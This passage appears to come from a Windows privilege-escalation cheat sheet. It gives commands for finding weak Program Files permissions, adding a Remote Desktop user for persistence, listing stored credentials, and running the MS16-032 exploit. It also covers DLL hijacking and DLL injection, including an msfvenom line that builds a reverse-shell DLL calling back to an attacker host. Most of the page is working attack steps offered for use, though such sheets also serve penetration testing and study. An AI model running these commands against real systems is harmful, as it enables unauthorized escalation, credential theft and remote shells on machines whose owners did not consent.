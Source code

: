 ```bat
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(F)" | findstr "BUILTIN\Users"

:: these commands check for modify permissions (M)
icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "Everyone"
icacls "C:\Program Files\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"
icacls "C:\Program Files (x86)\*" 2>nul | findstr "(M)" | findstr "BUILTIN\Users"
```

* Add a user capable of connecting via `rdesktop`; useful for returning to the target from a created administrator account (if executing this command with a bin path from above method, don't forget to escape the `"`s)
``` bat
net localgroup "Remote Desktop Users" <username> /add
```

* Check the credentials manager
```bat
cmdkey /list
dir C:\Users\<user>\AppData\Local\Microsoft\Credentials\
dir C:\Users\<user>\AppData\Roaming\Microsoft\Credentials\
```

* DLL injection (use [RemoteDLLInjector.exe](https://securityxploded.com/remote-dll-injector.php) for Windows XP to 8; alternatives include [Metasploit](https://www.rapid7.com/db/modules/post/windows/manage/reflective_dll_inject) and [PowerSploit](https://powersploit.readthedocs.io/en/latest/CodeExecution/Invoke-DllInjection/))
``` bat
:: on attack machine, make your dll payload
msfvenom -p windows/shell_reverse_tcp LHOST=<attackip> LPORT=<attackport> -f dll > ./payload.dll

:: on target machine, inject into 32-bit or 64-bit process via RemoteDLLInjector
RemoteDLLInjector32.exe <pid> <dllpath>
RemoteDLLInjector64.exe <pid> <dllpath>
```

* DLL hijacking
  * Check for processes with missing DLLs with [process monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)
  * Alternatively, use PowerSploit's [Find-ProcessDLLHijack](https://powersploit.readthedocs.io/en/latest/Privesc/Find-ProcessDLLHijack/)
  * Check for write permissions on a folder via `icacls <path>`

* Secondary logon handle (works on lots of Windows version but requires 2 CPUs and PowerShell 2.0); use [this PowerShell script](https://www.exploit-db.com/exploits/39719/) or [binary exploit](https://github.com/khr0x40sh/ms16-032)
``` posh
# ensure that patch has not been applied
powershell -C get-hotfix -id KB3139914
powershell -C get-hotfix -id KB314314

# run PowerShell exploit
powershell -exec bypass
Import-Module .\39719.ps1
Invoke-MS16-032

# or run custom binary
.\ms16-032.exe
```
